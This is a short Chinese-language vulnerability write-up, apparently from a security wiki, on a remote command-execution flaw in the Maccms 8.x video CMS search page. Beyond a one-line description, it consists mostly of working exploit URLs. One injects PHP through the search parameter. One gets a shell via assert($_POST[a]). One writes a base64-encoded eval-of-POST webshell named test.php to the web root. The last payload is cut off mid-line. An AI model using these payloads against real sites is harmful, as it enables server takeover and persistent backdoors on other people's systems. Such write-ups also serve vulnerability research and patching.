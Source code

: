 Maccms 8.x(苹果cms)命令执行漏洞
===============================

一、漏洞简介
------------

搜索页面搜索参数过滤不严 导致直接eval执行PHP语句，前台命令执行可getshell

二、漏洞影响
------------

Maccms 8.x

三、复现过程
------------

payload：

    http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A}

![](./resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId24.png)

getshell payload（a）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

    POST

    a=phpinfo()

![](./resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId25.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A
